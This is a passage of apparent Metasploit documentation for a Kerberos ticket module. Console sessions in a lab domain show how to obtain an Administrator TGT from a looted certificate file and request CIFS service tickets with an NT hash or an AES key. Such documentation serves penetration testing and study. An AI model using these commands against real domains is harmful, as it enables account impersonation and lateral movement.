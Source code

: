 ```msf
msf6 auxiliary(admin/kerberos/get_ticket) > run verbose=true rhosts=10.0.0.24 cert_file=/home/msfuser/.msf4/loot/20230124155521_default_10.0.0.24_windows.ad.cs_384669.pfx action=GET_TGT
[*] Running module against 10.0.0.24

[*] 10.0.0.24:88 - Getting TGT for Administrator@mylab.local
[+] 10.0.0.24:88 - Received a valid TGT-Response
[*] 10.0.0.24:88 - TGT MIT Credential Cache ticket saved to /home/msfuser/.msf4/loot/20230124155555_default_192.168.159.10_mit.kerberos.cca_702818.bin
[*] Auxiliary module execution completed
msf6 auxiliary(admin/kerberos/get_ticket) >
```

### Requesting a TGS

TGS with NT hash:

```msf
msf6 auxiliary(admin/kerberos/get_ticket) > run verbose=true rhosts=10.0.0.24 domain=mylab.local username=Administrator nthash=<redacted> action=GET_TGS spn=cifs/dc02.mylab.local
[*] Running module against 10.0.0.24

[+] 10.0.0.24:88 - Received a valid TGT-Response
[*] 10.0.0.24:88 - TGT MIT Credential Cache saved on /home/msfuser/.msf4/loot/20221104182601_default_10.0.0.24_mit.kerberos.cca_760650.bin
[+] 10.0.0.24:88 - Received a valid TGS-Response
[*] 10.0.0.24:88 - TGS MIT Credential Cache saved to /home/msfuser/.msf4/loot/20221104182601_default_10.0.0.24_mit.kerberos.cca_883314.bin
[*] Auxiliary module execution completed
msf6 auxiliary(admin/kerberos/get_ticket) > loot

Loot
====

host             service  type                 name  content                   info                                                                             path
----             -------  ----                 ----  -------                   ----                                                                             ----
10.0.0.24                 mit.kerberos.ccache        application/octet-stream  realm: MYLAB.LOCAL, serviceName: krbtgt/mylab.local, username: administrator     /home/msfuser/.msf4/loot/20221104182601_default_10.0.0.24_mit.kerberos.cca_760650.bin
10.0.0.24                 mit.kerberos.ccache        application/octet-stream  realm: MYLAB.LOCAL, serviceName: cifs/dc02.mylab.local, username: administrator  /home/msfuser/.msf4/loot/20221104182601_default_10.0.0.24_mit.kerberos.cca_883314.bin
```

TGS with encryption key:

```msf
msf6 auxiliary(admin/kerberos/get_ticket) > run verbose=true rhosts=10.0.0.24 domain=mylab.local username=Administrator AES_KEY=<redacted> action=GET_TGS spn=cifs/dc02.mylab.local
[*] Running module against 10.0.0.24

[+] 10.0.0.24:88 - Received a valid TGT-Response
[*] 10.0.0.24:88 - TGT MIT Credential Cache saved on /home/msfuser/.msf4/loot/20221104183040_default_10.0.0.24_mit.kerberos.cca_140502.bin
[+] 10.0.0.24:88 - Received a valid TGS-Response
[*] 10.0.0.24:88 - TGS MIT Credential Cache saved to /home/msfuser/.msf4/loot/20221104183040_default_10.0.0.24_mit.kerberos.cca_500387.bin
[*] Auxiliary module execution completed
```
